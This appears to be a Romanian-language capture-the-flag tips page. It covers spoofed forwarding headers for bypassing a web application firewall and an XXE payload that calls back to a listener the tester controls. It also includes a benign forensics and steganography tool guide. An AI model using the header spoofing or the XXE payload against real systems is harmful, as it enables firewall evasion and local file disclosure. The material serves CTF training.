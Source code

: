 - Am observat niste task-uri care presupun sa treci de un web app firewall (WAF).  Incercat sa faceti bypass cu:
    ```
    X-Forward-For: 127.0.0.1
    X-Forwarded-For: 127.0.0.2
    X-remote-IP: 127.0.0.3
    X-remote-addr: 127.0.0.4
    CLIENT_IP: 127.0.0.15
    X-originating-IP: 127.0.0.6
    ```

- Vulnerabilitatea XXE:
    - cautati locuri unde trimiteti cod xml
    - cautati locuri in care  se genereaza dinamic cod xml
    - poate puteti face upload de  .doc, .xlt, .docx, etc. Toate aceste documente sunt fisiere zip ce contin fisiere XML.
    - cand vreti sa confirmati o posibila vulnerabilitate incercati sa faceti o conexiune cu un server pe care il controlati (ascultati cu un nc -lvp 8080 pe el):
                            <?xml version="1.0" encoding="utf-8"?><!DOCTYPE roottag [ <!ENTITY send SYSTEM "http://ip.address:8080/">]><roottag>&send;</roottag>
    - daca nu merge asta, incercati sa cititi un fisier local.


## Forensics / stegano

- vizualizati fisierele si altfel decat intended:
- metadate metadate metadate: timpii de scriere, acces, etc.
- verificati entropia fisierelor cu binwalk
- vizualizati spectrograma cu sonic visualizer (calitatea imaginii e mai buna ca cea din Audacity si am avut un caz in care nu se vedea clar decat cu sonic visualizer)
- pe imagini utilizati stegsolve sa vedeti plane-urile pe bucati (http://www.caesum.com/handbook/Stegsolve.jar)
- cautati poze similare pe net (sau poate chiar pe site), preferabil exact la fel, si faceti xor sa vedeti diferentele
- google image search si TinEye reverse image search pot sa ajute masiv in a gasi poza originala
- variante populare de softuri care implementeaza steganografie in poze sunt Steghide (http://steghide.sourceforge.net/) si Paranoia (https://ccrma.stanford.edu/~eberdahl/Projects/Paranoia/)
- pentru PNG-uri pngcheck va poate spune unde e buba in general (un CRC gresit, lungimi de chunk-uri, etc), iar tweakpng (https://github.com/jsummers/tweakpng) va ajuta sa modificati din GUI atribute
- pentru audio/video exista tool-uri care extrag metadate, dar sunt dependente de format, nu exista ceva unificat
- pentru sisteme de fisiere EXT(2/3/4) extundelete poate recupera fisierele sterse de pe o imagine de filesystem, cu tot cu atribute (inode number, extended attributes, selinux labels, etc)
- pentru firmware-uri squashfs-tools compilat cu suport LZMA e in general o abordare buna
- in general squashfs-tools din package manager nu vine cu suport LZMA deci e o idee buna sa vi-l compilati de mana
- in general daca va trebuie un tool anume (tweakpng, squashfs-tools, extundelete) e mai bine sa vi-l compilati de mana deoarece ultima varianta, bazata pe surse, are fie functionalitati suplimentare, fie mai bine puse la punct
- daca sunt chestii mai ezoterice de procesat semnale (in speta audio), gnuradio companion e o solutie completa, dar necesita niste munca si niste cunostinte despre filtre si procesare de semnale
- pentru retea Wireshark sau NetworkMiner pot fi folosite sa extraga fisiere transferate; NetworkMiner e ceva mai bun la partea asta, dar e pe Windows/Wine si accepta doar capturi PCAP, nu PCAP-NG
- pentru decriptat SSL, daca traficul in puteti genera voi, atunci poate fi o solutie fisierul de debug SSL (https://jimshaver.net/2015/02/11/decrypting-tls-browser-traffic-with-wireshark-the-easy-way/)
- in general cand va uitati peste o captura, doua puncte de plecare sunt lista de conversatii si graficul I/O
- pentru procesare mai avansata scapy e cea mai la indemana solutie
- daca vreti sa faceti un server cu scapy trebuie sa rulati si o comanda de genul "iptables -A INPUT -i $INTERFATA -p tcp --dport $PORT -j DROP" unde $INTERFATA si $PORT sunt specifice problemei; altfel, kernelul va bloca pachetele inainte sa ajunga la programul vostru

